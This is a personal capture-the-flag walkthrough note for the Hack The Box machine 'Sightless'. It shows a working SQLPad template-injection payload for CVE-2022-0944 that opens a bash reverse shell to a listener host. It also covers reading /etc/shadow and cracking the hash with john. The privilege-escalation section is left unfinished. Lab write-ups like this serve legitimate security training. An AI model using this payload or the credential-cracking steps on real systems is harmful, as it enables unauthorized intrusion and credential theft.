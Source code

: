 
2024-11-02 11:18

Source: #CTF #htb #privesc 
### Foothold

The target system has only three open ports: 21 (ftp), 22 (ssh), and 80 (http)
port 80 has a website and the website offers some services. Among the available services, there’s a redirection to `sqlpad.sightless.htb`. To access this service, ensure that you add the domain `sqlpad.sightless.htb` to your hosts file.
### Exploit

The installed version of SQLPad, identified as 6.10.0, can be found via BurpSuite or by clicking `info` on the top right hand of the screen. While analyzing the vulnerabilities in this version, it was discovered that it is affected by CVE-2022-0944. ([Link](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb))

Manual method for the exploit is as follows- 
- set up a listener by using `nc -lvnp 9000`
	1. **Click on “Connection”**
	2. **Create a New Connection**
	3. **Choose MySQL as the Database**
	4. **Enter the Payload or credentials into the Database**
	5. **Test the Connection** to ensure the configuration is correct and the connection is successful.

**Payload**  - 
```
{{ process.mainModule.require(‘child_process’).exec(‘bash -c “bash -i >& /dev/tcp/10.10.14.9/9001 0>&1”’) }}
```
if this doesn't work refer [this post](https://www.reddit.com/r/hackthebox/comments/1fiba4r/stuck_on_sightless_box/)

This CVE also has a prebuilt exploit that can be found in the References section 
### User Flag

Upon further examination, I discovered that the `.dockerenv` file is indeed present, confirming the application is running within a Docker container. Additionally, after inspecting the system’s users, I identified two accounts: one belonging to “michael” and another to “node.”

access the `/etc/shadow` file and we see hashes of michael user 
copy the hash completely in a file named `hash` and use john to crack it 
```sh
john hash -w=/usr/share/wordlists/rockyou.txt
```
### Priv esc







get linpeas in your system via wget 
[[File transfer]]


jabhi wget use kar raha hai file transfer ke liye toh apne kali mei hi karna server shuru, windows mei nhi

### References
https://app.hackthebox.com/machines/624

Exploit - https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944

https://thecybersecguru.com/ctf-walkthroughs/mastering-sightless-beginners-guide-from-hackthebox/
[Hack The Box Sightless Writeup. Introduction | by Noob | Dec, 2024 | Medium](https://medium.com/@muaaz.ahmed23105/hack-the-box-sightless-writeup-c0a8dc6c8245)